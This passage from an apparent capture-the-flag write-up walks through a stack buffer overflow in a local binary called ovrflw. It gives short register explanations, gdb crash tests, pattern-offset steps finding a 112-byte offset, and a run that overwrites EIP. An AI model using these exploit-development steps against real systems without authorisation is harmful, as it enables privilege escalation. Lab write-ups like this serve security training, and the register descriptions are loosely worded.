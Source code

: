 - **EIP** (**Instruction Pointer**): is the instruction pointer, and it stores the address of the machine instruction currently being executed.
- **EBP** (**Base Pointer**): is the base pointer, and it stores the address of the top of the current stack frame.
- **ESP** (**Stack Pointer**): is the stack pointer, and it stores the address of the bottom of the current stack frame.

```bash
gdb /usr/local/bin/ovrflw
  r AAAAAAAAAAAA
  r $(python3 -c 'print("A" * 300)')

# EBP: 0x41414141 ('AAAA')
# ESP: 0xbfc5d920 ('A' <repeats 184 times>)
# EIP: 0x41414141 ('AAAA')
# SIGSEGV     Segmentation False!

gdb /usr/local/bin/ovrflw
  pattern_create 300
  r 'AAA%....gA%6A%'
# EIP: 0x41384141 ('AA8A')    <-- 

  p $eip
# $2 = (void (*)()) 0x41384141
  pattern_offset 0x41384141
  pattern_offset $eip
  pattern_offset 'AA8A'
# 112                         :)

gdb /usr/local/bin/ovrflw
  r $(python3 -c 'print("A" * 112 + "B" * 4 + "C" * 50)')
# EBP: 0x41414141 ('AAAA')
# ESP: 0xbfa0fbc0 ('C' <repeats 50 times>)
# EIP: 0x42424242 ('BBBB')                        All ok!
```

<br />
<img src="{{ site.img_path }}/october_writeup/October_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/october_writeup/October_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/october_writeup/October_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

